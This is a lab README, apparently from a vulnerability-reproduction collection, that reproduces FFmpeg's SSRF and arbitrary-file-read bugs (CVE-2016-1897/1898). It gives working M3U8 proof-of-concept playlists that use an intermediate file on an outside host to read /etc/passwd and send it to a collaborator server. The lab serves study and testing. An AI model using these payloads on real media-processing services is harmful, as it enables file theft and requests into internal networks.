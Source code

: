 # FFmpeg Arbitrary File Read and SSRF (CVE-2016-1897/CVE-2016-1898)

[中文版本(Chinese version)](README.zh-cn.md)

FFmpeg is a popular multimedia framework that can handle various audio and video formats. In the FFmpeg version prior to 2.8.5, 2.7.5, 2.6.7, 2.5.10, 2.4.13, two vulnerabilities were discovered that could allow attackers to read arbitrary files (CVE-2016-1897) or perform Server-Side Request Forgery (SSRF) attacks (CVE-2016-1898).

References:

- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html>
- <http://habrahabr.ru/company/mailru/blog/274855/>

## Environment Setup

Execute the following commands to build and start the environment:

```
docker compose up -d
```

After the server starts, it will listen on port 8080. Visit `http://your-ip:8080/` to access the application, the application is a simple video player that allows users to upload and play videos.

## Vulnerability Reproduction

Upload the following poc to reproduce the SSRF vulnerability using collaborator server:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request:

![](1.png)

To reproduce the arbitrary file reading, you should serve a intermediate file on an accessible server (for example, `http://intermediate.example.com/intermediate.m3u8`) with following content:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

The content of the files you stole will be sent to the collaborator server specified in the intermediary file above.

Then, use the intermediate file to construct the POC and upload it:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request that contains the content of `/etc/passwd`:

![](2.png)
